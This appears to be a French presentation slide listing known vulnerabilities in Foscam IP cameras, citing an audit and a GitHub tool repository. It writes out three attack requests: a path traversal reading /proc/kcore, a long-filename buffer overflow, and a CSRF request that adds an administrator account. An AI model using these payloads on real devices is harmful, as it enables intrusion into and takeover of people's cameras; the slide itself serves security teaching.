

# Etape 3 Trouver les failles de la version
Audit : http://www.coresecurity.com/
GitHub : https://github.com/Girakith/foscamTools

Faille 1 :
Path traversal attack :
GET /../../../../../../../../../proc/kcore
Faille 2 :
Buffer overflow :
GET /aaaaaa….aaaa.htm
Faille 3:
CSRF (Cross-Site Request Forgery) :
POST set_users.cgi?
user1=&pwd1=&pri1=2&user2=&pwd2=&pri2=&user3=&pwd3=&pri3=&user4=&pwd4=&pri4=&user5=&pwd5=&pri5=&user6=&pwd6=&pri6=&user7=&pwd7=&pri7=&user8=csrf&pwd8=csrf&pri8=2&next_url=http://www.google.com

4